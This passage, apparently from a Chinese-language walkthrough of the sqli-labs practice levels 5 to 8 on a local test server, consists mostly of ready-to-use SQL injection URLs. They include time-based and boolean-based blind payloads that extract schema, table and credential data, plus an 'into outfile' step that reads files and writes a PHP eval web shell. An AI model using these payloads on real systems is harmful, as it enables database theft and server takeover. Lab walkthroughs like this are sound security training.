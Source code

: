 这里修改LIMIT n，1即可遍历

Time-Based
`http://127.0.0.1/sqli/less-5/?id=1' and if(ascii(mid(database(),1,1))=96,1,sleep(5))--+`

`http://127.0.0.1/sqli/less-5/?id=1' and if((ascii(mid((select schema_name from information_schema.schemata limit 0,1),1,1))=ascii('i')),1,sleep(5))--+`

***

**Less-6**

上一关的单引号改为双引号闭合，其余完全相同，采用延时注入

`http://127.0.0.1/sqli/less-6/?id=1" and if(ascii(mid((select schema_name from information_schema.schemata limit 0,1),1,1))=ascii('i'),1,sleep(5))--+`

`http://127.0.0.1/sqli/less-6/?id=1" and if(ascii(mid((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=ascii('e'),1,sleep(5))--+`

`http://127.0.0.1/sqli/less-6/?id=1" and if(ascii(mid((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1))=ascii('u'),1,sleep(5))--+`

`http://127.0.0.1/sqli/less-6/?id=1" and if(ascii(mid((select concat(username,0x25,password) from users where id=1 limit 0,1),1,1))=ascii('D'),1,sleep(5))--+`

`http://127.0.0.1/sqli/less-6/?id=1" and if(ascii(mid((select concat(username,0x25,password) from users where id=1 limit 0,1),5,1))=ascii('%'),1,sleep(5))--+`

***

**Less-7**

首先判断参数提交为(('$id'))，接着提示需要`use outfile`

`http://127.0.0.1/sqli/less-7/?id=1 and (select count(*) from mysql.user)>0--+`返回正常，说明有写入权限

查询列
`http://127.0.0.1/sqli/less-7/?id=1')) union select 1,2,(username from users where id=1) into outfile "D:\\phpStudy\\WWW\\sqli\\Less-7\\qqq.php"--+`

读取文件并写入
`http://127.0.0.1/sqli/less-7/?id=1')) union select 1,2,load_file('D:\\phpStudy\\WWW\\phpinfo.php') into outfile "D:\\phpStudy\\WWW\\sqli\\Less-7\\aaa.txt"`

写入webshell，拿菜刀连接
`http://127.0.0.1/sqli/less-7/?id=1')) union select 1,2,'<?php eval($_POST["dump"]) ?>' into outfile "D:\\phpStudy\\WWW\\sqli\\Less-7\\qqq.php"--+`

***

**Less-8**

提交`?id=' or 1=1--+`，知为单引号闭合

多说一点，我发现Mysql或者是后端php中，认为两个单引号等同于一个双引号，这里提交`?id="' or 1=1--+`也会返回正常

知道如何闭合后采取延时注入或布尔注入就可以了，报错注入这一关源码中设置不回显报错

`http://127.0.0.1/sqli/less-8/?id=1' and ascii(mid((select password from users where id=1),1,1))=ascii('a')--+`
